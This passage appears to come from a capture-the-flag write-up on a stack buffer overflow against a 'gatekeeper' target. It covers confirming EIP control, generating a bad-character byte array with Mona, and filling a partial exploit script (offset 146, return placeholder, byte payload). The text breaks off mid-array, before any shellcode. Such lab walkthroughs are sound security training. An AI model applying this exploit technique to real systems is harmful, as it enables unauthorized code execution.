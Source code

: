 We can see we have control of EIP because it contains 42424242 which is ASCII for BBBB which we just sent. Eventually we'll be putting the address of the ESP in there to cause the program to jump to our shellcode.

## Finding Bad Characters

First we need to check for bad characters. We use Mona to create our initial list:

```text
!mona bytearray -b "\x00"
```

You can see in the output it lists all of the possible ASCII characters:

![gatekeeper-bytearray](/assets/images/2021-03-17-22-06-01.png)

There is a text file generated, which we can use to copy the ASCII code out of to place in our script:

![gatekeeper-byte-text](/assets/images/2021-03-17-22-09-45.png)

Paste in to the payload section:

```text
prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
```
